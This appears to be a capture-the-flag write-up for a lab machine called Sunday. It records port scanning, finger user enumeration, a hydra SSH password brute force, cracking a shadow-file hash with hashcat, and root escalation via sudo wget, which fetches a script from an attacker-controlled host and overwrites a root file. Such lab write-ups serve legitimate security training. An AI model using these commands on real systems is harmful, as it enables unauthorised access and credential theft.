

# Summary


## about target

tip:  10.129.29.44

hostname: Sunday

Difficulty: Easy, not that easy.


## about attack

+ finger enum， users； hashcat crack linux pwd
+ wget sudo  privesc


**attack note**

```bash
Sunday / 10.129.29.44

PORT      STATE SERVICE VERSION
79/tcp    open  finger?
| fingerprint-strings:
|   GenericLines:
|     No one logged on
|   GetRequest:
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions:
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help:
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest:
|     Login Name TTY Idle When Where
|     OPTIONS ???
|     RTSP/1.0 ???
|   SSLSessionReq:
|_    Login Name TTY Idle When Where
|_finger: No one logged on\x0D
111/tcp   open  rpcbind 2-4 (RPC #100000)
515/tcp   open  printer
22022/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
| ssh-hostkey:
|   2048 aa0094321860a4933b87a4b6f802680e (RSA)
|_  256 da2a6cfa6bb1ea161da654a10b2bee48 (ED25519)

-enum

--port 79

finger root@$tip

finger admin@$tip

perl finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t $tip

--rpcbind 111   no found.
sudo nmap -sSUC -p 111 -oN rpc.nmap $tip

rpcinfo -p $tip
rpcinfo $tip
rpcclient -U '' $tip 

--oracle solaris 6787


```


# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```


Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT      STATE SERVICE VERSION
79/tcp    open  finger?
| fingerprint-strings:
|   GenericLines:
|     No one logged on
|   GetRequest:
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions:
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help:
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest:
|     Login Name TTY Idle When Where
|     OPTIONS ???
|     RTSP/1.0 ???
|   SSLSessionReq:
|_    Login Name TTY Idle When Where
|_finger: No one logged on\x0D
111/tcp   open  rpcbind 2-4 (RPC #100000)
515/tcp   open  printer
22022/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
| ssh-hostkey:
|   2048 aa0094321860a4933b87a4b6f802680e (RSA)
|_  256 da2a6cfa6bb1ea161da654a10b2bee48 (ED25519)
```


## finger enum

user enum. 

https://pentestmonkey.net/tools/user-enumeration/finger-user-enum

```bash
finger root@$tip

finger admin@$tip

perl finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t $tip
```


user sammy, sunny.


# Exploit

## ssh brute

```bash
hydra -l sunny -P /usr/share/seclists/Passwords/probable-v2-top1575.txt ssh://$tip:22022

```


ssh login ,got shell.

```bash
ssh -p 22022 sunny@$tip

```


# Privesc


## local enum

linpeas, nothing.

linenum, nothing.

Sudo list and the history.

```bash
sudo -l 

cat .bash_history
```


/backup/shadow.backup, found password hash.

```bash
cat /backup/shadow.backup
```


crack . 

check the hash format here, 


search $5$


hashcat crack. 

```bash
hashcat -m 7400 sammy.hash /usr/share/wordlists/rockyou.txt
hashcat -m 7400 sammy.hash --show
```


Sammy,  sudo wget

```bash
sudo -l
```


## System

Sammy  wget  file to troll.

```bash
!#/usr/bin/bash

bash
```



```bash
# sammy
sudo wget http://10.10.14.78/troll -O /root/troll

# sunny
sudo /root/troll
```

failed, seems the file downloaded and recoveried imediately.

from ipsec walkthrough.

```bash
sleep 5; sudo wget http://10.10.14.78/troll -O /root/troll

# as soon as the wget execute, execute on sunny
sudo /root/troll
```


check the /root, overwrite the troll every 5 seconds.


another way,  overwrite the passwd file, add user.


## proof

```bash


```


